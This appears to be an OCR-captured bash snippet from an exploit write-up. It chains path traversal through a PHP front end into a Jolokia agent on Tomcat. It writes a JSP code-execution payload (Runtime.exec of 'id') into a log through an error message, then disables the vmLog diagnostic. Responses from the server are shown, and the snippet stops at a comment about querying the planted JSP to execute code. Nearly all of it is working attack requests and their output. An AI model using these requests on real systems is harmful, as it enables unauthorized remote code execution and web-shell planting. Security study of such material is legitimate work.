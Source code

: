 ```bash
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jolokia/win%253C%2525%253Dnew%2520java.util.Scanner%2528Runtime.getRuntime%2528%2529.exec%2528%2522id%2522%2529.getInputStream%2528%2529%2529.useDelimiter%2528%2522pouetpouet%2522%2529.next%2528%2529%2525%253Ewin%23'

#HTTP/1.1 200 OK
#Host: 0.0.0.0:8443
#Date: Sun, 28 Feb 2021 02:11:11 GMT
#Connection: close
#X-Powered-By: PHP/8.1.0-dev
#Content-type: text/html; charset=UTF-8
#
#string(3076) "{"stacktrace":"java.lang.IllegalArgumentException: No type with name 'win<%=new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"pouetpouet\").next()%>win' exists\n\tat org.jolokia.util.RequestType.getTypeByName(RequestType.java:69)\n\tat org.jolokia.request.JmxRequestFactory.createGetRequest(JmxRequestFactory.java:94)\n\tat org.jolokia.http.HttpRequestHandler.handleGetRequest(HttpRequestHandler.java:79)\n\tat org.jolokia.http.AgentServlet$4.handleRequest(AgentServlet.java:470)\n\tat org.jolokia.http.AgentServlet.handleSecurely(AgentServlet.java:350)\n\tat org.jolokia.http.AgentServlet.handle(AgentServlet.java:321)\n\tat org.jolokia.http.AgentServlet.doGet(AgentServlet.java:277)\n\tat javax.servlet.http.HttpServlet.service(HttpServlet.java:634)\n\tat javax.servlet.http.HttpServlet.service(HttpServlet.java:741)\n\tat org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)\n\tat org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)\n\tat org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:53)\n\tat org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)\n\tat org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)\n\tat org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:200)\n\tat org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)\n\tat org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:490)\n\tat org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:139)\n\tat org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:92)\n\tat org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:668)\n\tat org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:74)\n\tat org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:343)\n\tat org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:408)\n\tat org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)\n\tat org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:834)\n\tat org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1415)\n\tat org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)\n\tat java.base\/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)\n\tat java.base\/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)\n\tat org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)\n\tat java.base\/java.lang.Thread.run(Thread.java:834)\n","error_type":"java.lang.IllegalArgumentException","error":"java.lang.IllegalArgumentException : No type with name 'win<%=new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"pouetpouet\").next()%>win' exists","status":400}"

sleep 1
# End log file, stop adding garbage
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable%23'

#HTTP/1.1 200 OK   
#Host: 0.0.0.0:8443                                                                                                                                                                            
#Date: Sun, 28 Feb 2021 02:11:12 GMT
#Connection: close          
#X-Powered-By: PHP/8.1.0-dev           
#Content-type: text/html; charset=UTF-8
#                                                                                                                                                                                               
#string(170) "{"request":{"mbean":"com.sun.management:type=DiagnosticCommand","arguments":["disable"],"type":"exec","operation":"vmLog"},"value":"","timestamp":1614478272,"status":200}"


# Query our jsp and execute code
```